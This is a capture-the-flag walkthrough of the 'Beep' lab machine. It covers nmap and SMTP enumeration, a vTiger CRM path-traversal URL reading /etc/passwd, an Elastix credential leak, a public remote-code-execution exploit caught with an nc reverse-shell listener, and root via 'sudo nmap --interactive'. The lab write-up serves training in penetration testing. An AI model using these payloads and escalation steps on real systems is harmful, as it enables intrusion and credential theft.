


`Box: Linux`
`Level: Easy`
### Index
1. [Box Info](#Box%20Info)
2. [Initial Nmap Enum](#Initial%20Nmap%20Enum)
3. [`SMTP Enumeration`](#`SMTP%20Enumeration`)
	1. [`User Enumeration`](#`User%20Enumeration`)
4. [`Web Enum`](#`Web%20Enum`)
	1. [`vTiger CRM 5.1.0 - Local File Inclusion`](#`vTiger%20CRM%205.1.0%20-%20Local%20File%20Inclusion`)
	2. [`User Flag using LFI - Burp`](#`User%20Flag%20using%20LFI%20-%20Burp`)
	3. [`Elastix 2.2.0 - LFI to extract Admin Creds`](#`Elastix%202.2.0%20-%20LFI%20to%20extract%20Admin%20Creds`)
	4. [`Locating Extension`](#`Locating%20Extension`)
	5. [`Elastix 2.2.0 - Remote Code Execution`](#`Elastix%202.2.0%20-%20Remote%20Code%20Execution`)
5. [`Privilege Escalation`](#`Privilege%20Escalation`)

### Box Info
```
Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.
```

### Initial Nmap Enum
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn beep.htb      
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://beep.htb/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: RESP-CODES PIPELINING EXPIRE(NEVER) APOP UIDL STLS USER LOGIN-DELAY(0) AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) TOP
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            790/udp   status
|_  100024  1            793/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: RENAME CHILDREN X-NETSCAPE Completed OK UIDPLUS STARTTLS LIST-SUBSCRIBED SORT NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES IMAP4rev1 ATOMIC CONDSTORE IDLE CATENATE QUOTA UNSELECT ANNOTATEMORE URLAUTHA0001 MULTIAPPEND BINARY SORT=MODSEQ RIGHTS=kxte ID MAILBOX-REFERRALS ACL LITERAL+ IMAP4 LISTEXT NO
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_ssl-date: 2024-09-29T05:00:51+00:00; -1s from scanner time.
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
793/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1)
```

### `SMTP Enumeration`
###### `User Enumeration`
```
# smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t 10.10.10.7
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt
Target count ............. 1
Username count ........... 17
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Sun Sep 29 01:16:19 2024 #########
######## Scan completed at Sun Sep 29 01:16:39 2024 #########
0 results.

17 queries in 20 seconds (0.8 queries / sec)
```

nothing interesting in SMTP.

### `Web Enum`


```
# gobuster dir -u https://beep.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 306] [--> https://beep.htb/images/]
/help                 (Status: 301) [Size: 304] [--> https://beep.htb/help/]
/themes               (Status: 301) [Size: 306] [--> https://beep.htb/themes/]
/modules              (Status: 301) [Size: 307] [--> https://beep.htb/modules/]
/mail                 (Status: 301) [Size: 304] [--> https://beep.htb/mail/]
/admin                (Status: 301) [Size: 305] [--> https://beep.htb/admin/]
/static               (Status: 301) [Size: 306] [--> https://beep.htb/static/]
/lang                 (Status: 301) [Size: 304] [--> https://beep.htb/lang/]
/var                  (Status: 301) [Size: 303] [--> https://beep.htb/var/]
/panel                (Status: 301) [Size: 305] [--> https://beep.htb/panel/]
/libs                 (Status: 301) [Size: 304] [--> https://beep.htb/libs/]
/recordings           (Status: 301) [Size: 310] [--> https://beep.htb/recordings/]
/configs              (Status: 301) [Size: 307] [--> https://beep.htb/configs/]
/vtigercrm            (Status: 301) [Size: 309] [--> https://beep.htb/vtigercrm/]
```

We have five different login pages. Here are the URLs for all the web Login Pages.
```
https://beep.htb --> Redirect to Elastix - Login page --> /admin and provide incorrect password reveals the version "FreePBX 2.8.1.4"
https://beep.htb/recordings/ --> Redirects to login page version --> FreePBX 2.5
https://beep.htb/mail/ --> Redirect to RoundCube version ???
https://beep.htb/vtigercrm/ --> Redirect to vtiger CRM version 5.1.0 --> Mentioned at the bottom left on the page
https://beep.htb:10000/ --> Redirect to Webmin version ???
```





`Port 10000` is also running HTTP service. 



###### `vTiger CRM 5.1.0 - Local File Inclusion`
Following to [CVE-2012-4867](https://www.exploit-db.com/exploits/18770), I was able to perform LFI on the vTiger CRM 5.1.0
`https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00`


Okay we have a valid list of users now who are present on the system. I was able to capture the User flag using LFI.

###### `User Flag using LFI - Burp`
One of the valid user we found in the above HTTP request was `fanis`. I was able to grab the `user.txt` file content in burp using the LFI attack.

But this is not something I wanted. I need a shell. 

###### `Elastix 2.2.0 - LFI to extract Admin Creds`


The above file `/etc/amportal.conf` file reveals the admin credentials which allowed us to login to `https://10.10.10.7/`.


###### `Locating Extension`
Under PBX --> Extension, We have one Extension

###### `Elastix 2.2.0 - Remote Code Execution`
Another [Exploit-DB](https://www.exploit-db.com/exploits/18650) Exploit, Can be handy to grab a shell.
`# Exploit Title: FreePBX / Elastix pre-authenticated remote code execution exploit`
```
# python2 18650.py

# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.7] 48156
id
uid=100(asterisk) gid=101(asterisk)
```

### `Privilege Escalation`

Simply running `sudo -l` gave me a list of commands i was able to run without password.
```
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> id
id
Unknown command (id) -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

Using Nmap --interactive, I switch my `asterisk` shell into `root` shell.